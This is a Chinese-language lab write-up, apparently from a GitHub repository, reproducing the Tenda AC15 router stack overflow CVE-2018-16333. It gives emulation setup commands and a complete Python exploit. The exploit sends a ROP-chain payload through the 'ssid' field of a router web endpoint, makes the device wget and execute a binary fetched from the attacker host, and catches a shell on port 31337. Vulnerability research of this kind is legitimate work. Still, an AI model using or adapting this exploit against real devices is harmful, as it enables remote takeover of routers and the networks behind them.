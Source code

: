# Tenda AC15 栈溢出漏洞（CVE-2018-16333）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += b'chmod 777 /msf\n'
cmd += b'/msf'

assert(len(cmd) < 255)

libc_base = 0x76cee000

system = libc_base + 0x5A270
readable_addr = libc_base + 0x64144
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'a'*(0x60) + p32(readable_addr) + b'b'*(0x20-8)
payload += p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/fast_setting_wifi_set"
cookie = {"Cookie": "password=12345"}
data = {"ssid": payload}

def attack():
    try:
        requests.post(url, cookies=cookie, data=data)
        requests.post(url, cookies=cookie, data=data)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://www.anquanke.com/post/id/231445
